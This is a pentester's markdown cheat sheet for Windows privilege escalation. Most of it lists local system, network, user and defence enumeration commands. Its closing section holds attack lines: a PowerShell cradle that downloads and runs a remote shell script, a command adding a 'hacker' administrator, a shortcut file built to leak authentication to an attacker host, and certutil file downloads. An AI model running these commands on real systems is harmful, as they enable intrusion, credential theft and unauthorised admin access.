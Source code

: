 
# Windows Privesc, Enumeration

## Useful links :D
[Windows Command-line reference](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/windows-commands#command-line-reference-a-z)

## Basic system Enumeration

- Lists every running service on the machine :
`tasklist /svc`

- Show installed software :
`wmic product get name`

- Show installed software (via PowerShell) :
`Get-WmiObject -Class Win32_Product | Select Name, Version`

- Show installed software via powershell and registry keys : 
```powershell
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize
```

- Prints every environment variables :
`set`

- View Detailed Configuration Information : 
`systeminfo`

- View windows version (in PowerShell)
`[environment]::OSVersion.Version`

- Query info on a process by PID : 
`get-process -Id <PID>`

## Basic Network Enumeration : 

- Interface(s), IP Address(es), DNS Information : 
`ipconfig /all`

- Prints the arp table :
`arp -a`

- Prints the routing table :
`route print`

- Display active network connections :
`netstat -ano`

- Display information about a specific TCP port (with PowerShell): 
`Get-Process -Id (Get-NetTCPConnection -LocalPort 9999).OwningProcess`

- Display information about a specific UDP port (with PowerShell): 
`Get-Process -Id (Get-NetUDPConnection -LocalPort 6666).OwningProcess`

## Users & Group Information

- Show logged-in users : 
`query user`

- Display currenr user : 
`echo %USERNAME%` 

- Show current user privileges : 
`whoami /priv`

- Show current user group information : 
`whoami /groups`

- Show all users : 
`net user` 

- Show all groups : 
`net localgroup`

- Query details about a group : 
`net localgroup administrators`

- Query password policy and other account information : 
`net accounts`

## Enumerating Protections

- Get Windows Defender status :
`Get-MpComputerStatus`

- Lists all AppLocker rules : 
`Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`

- Tests AppLocker Policy
`Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone`

- Lists Patches and Updates 
`wmic qfe`

- Lists Patches and Updates (via PowerShell)
`Get-HotFix | ft -AutoSize`

- Checking if UAC is enabled :
`reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA`

- Checking UAC level : 
`reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin`
## Named pipes shenanigans

- Query named pipes using [pipelist](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist) from SysInternals : 
`pipelist.exe /accepteula`

- Query named pipes using PowerShell :
`Get-ChildItem \\.\pipe\`

- Show DACLs of a named pipe using [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) from SysInternals :
`accesschk.exe /accepteula \\.\Pipe\lsass -v`

## Other useful stuff

- Download a powershell script and execute it from memory :
`powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.4:8080/shell.ps1')`

- Add a user "hacker" to the administrator group :
`net localgroup Administrators hacker /add`

- Monitor newly created processes :
```powershell
while($true)
{
  $process = Get-WmiObject Win32_Process | Select-Object CommandLine
  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
  Compare-Object -ReferenceObject $process -DifferenceObject $process2
}
```
- Generate a malicious shortcut 
```powershell
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\legit.lnk")
$lnk.TargetPath = "\\<attackerIP>\@pwn.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

- Using certutil to download a file :
`certutil.exe -urlcache -split -f http://10.10.14.143/example.bat example.bat`

- Using certutil to encode and decode a file in base64 :
```bat
certutil -encode file1 encodedfile
certutil -decode encodedfile file2
```